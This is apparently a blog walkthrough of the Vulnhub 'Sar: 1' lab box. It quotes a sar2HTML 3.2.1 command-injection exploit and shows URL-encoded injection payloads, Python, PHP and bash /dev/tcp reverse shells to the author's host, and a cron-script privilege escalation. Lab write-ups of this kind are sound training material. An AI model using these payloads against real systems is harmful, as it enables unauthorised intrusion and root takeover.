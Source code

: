 ```yaml
---
title: Test Post
author: tactinix
date: 2021-02-07
categories: [Walk-throughs]
tags: [Vulnhub-Boxes]
math: true
mermaid: true
---
```




Solving this box involve taking advantage of an vulnerability in the Sar2HTML web application, then making use of the cron scheduler to gain root on the box.

### About the box
-   **Name**: Sar: 1
-   **Date release**: 15 Feb 2020
-   **Author**: [Love](https://www.vulnhub.com/author/love,669/)
-   **Series**: [Sar](https://www.vulnhub.com/series/sar,276/)

### Description on Vulnhub
Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

### Recon

Starting off with `nmap` and `gobuster`.

`sudo nmap -sC -sV -oA nmap.initial 192.168.178.120`

reveals;

```# Nmap 7.91 scan initiated Sun Feb  7 10:39:36 2021 as: nmap -sC -sV -oA nmap.initial 192.168.178.120
Nmap scan report for sar.fritz.box (192.168.178.120)
Host is up (0.00013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:82:2A:C6 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sun Feb  7 10:39:43 2021 -- 1 IP address (1 host up) scanned in 6.73 seconds
```

Only one port open, port 80.

`gobuster dir -w ~/wordlists/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt -u 192.168.178.120 -o gobuster.out`

get the following;

```/index.html           (Status: 200) [Size: 10918]
/.htaccess            (Status: 403) [Size: 280]
/robots.txt           (Status: 200) [Size: 9]
/.                    (Status: 200) [Size: 10918]
/phpinfo.php          (Status: 200) [Size: 95426]
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htm                 (Status: 403) [Size: 280]
/.htpasswds           (Status: 403) [Size: 280]
/.htgroup             (Status: 403) [Size: 280]
/wp-forum.phps        (Status: 403) [Size: 280]
/.htaccess.bak        (Status: 403) [Size: 280]
/.htuser              (Status: 403) [Size: 280]
/.htc                 (Status: 403) [Size: 280]
/.ht                  (Status: 403) [Size: 280]
/.htaccess.old        (Status: 403) [Size: 280]
/.htacess             (Status: 403) [Size: 280]
```

Initial site on port 80 is the standard "It works" page.

![](/images/img/sar/20210207105159.png)

Nmap did point to a `robots.txt` which only contains a reference to `sar2HTML`

/sar2HTML

![](/images/img/sar/20210207105542.png)

Gobuster found /phpinfo.php

![](/images/img/sar/20210207105643.png)

So, what is `sar2html`?
According to the page on Sourceforge, it's a

`Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's library. Both command line and web interface provide same functionality.`
See [Sourceforge](https://sourceforge.net/projects/sar2html/#:~:text=Sar2html%20is%20web%20based%20frontend,web%20interface%20provide%20same%20functionality.&text=Then%20you%20may%20plot%20performance,pdf%20file%20format%20through%20sar2html).
The `sar` command as per Ubuntu manpages,

`sar - Collect, report, or save system activity information.`

Provided by: [sysstat\_11.6.1-1\_amd64](https://launchpad.net/ubuntu/bionic/+package/sysstat) 

The related [Ubuntu manpage](http://manpages.ubuntu.com/manpages/bionic/man1/sar.sysstat.1.html)




Sar2HTML 3.2.1, the version on the box, has an exploit listed on [Exploitdb](https://www.exploit-db.com/exploits/47204).

```txt
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
            
```

Putting the exploit to action and testing with `whoami`;

![](/images/img/sar/20210207112123.png)

Some further poking with `ls`;

![](/images/img/sar/20210207112240.png)

### Gaining a shell

From the /phpinfo.php page we know `curl` is enabled, thus we can leverage it to get a reverse shell, something like pentestermonkey's reverse-php-shell.php on the box. However, through the `post` request into Zap, we can also do a `php` reverse connection with `php -r '$sock\=fsockopen("my_ip",my_port);exec("/bin/sh -i <&3 >&3 2>&3");'`.

Option 2, did not work out so well, but going with `curl` did.
Setting the values and making sure `http://192.168.178.120/sar2HTML/index.php?plot=;curl%20http://192.168.178.79:8000/rs.php` with a `python -m http.server`, also standing up a `nc -lvnp 1337` so long.
![](/images/img/sar/20210207120342.png)


![](/images/img/sar/20210207115625.png)


There was definitely a connection, but checking if the script stuck with `ls` did not reveal anything. Doing various `ls`'s' around, I came upon 2 shell scripts in the `app-root`, 
![](/images/img/sar/20210207121432.png)

Using `wget` to pull them down to look at what they do;

![](/images/img/sar/20210207143210.png)

Looks like `finally.sh` call `write.sh` that can write to `/tmp`,
something perhaps for later.



Going further, the `user.txt` flag can be had without a shell;

![](/images/img/sar/20210207122637.png)




It turns out my idea going with a reverse shell `.php` script, might be a brain fart as well, but eventually get a shell on the box with `python`
The full `python` method being, 
```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.178.79",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
from https://book.hacktricks.xyz/shells/shells/linux#python

with the full URL being `http://192.168.178.120/sar2HTML/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((%22192.168.178.79%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call(%5B%22/bin/sh%22,%22-i%22%5D);%27`
get a shell on a `nc -lvnp 1234`.

![](/images/img/sar/20210207144748.png)

Pulling LinPEAS.sh and going through the output, the script from before `finally.sh` pops up.

![](/images/img/sar/20210207150023.png)


Going further through the output,


![](/images/img/sar/20210207152021.png)

So `crontab` it is!
Firstly, we stand up a `nc -lvnp 1346` to accept the reverse shell when the`crontab` is triggered, then we append our reverse shell command to `write.sh` with a `echo -e "bash -c 'bash -i >& /dev/tcp/192.168.178.79/1346 0>&1'" >> write.sh`.

Wait a bit and viola!

![](/images/img/sar/20210207161653.png)


Box solved, got the user flag previously through the web vulnerability and the root flag via a naughty crontab.

Thanks for reading and have the best day ever!

tactinix
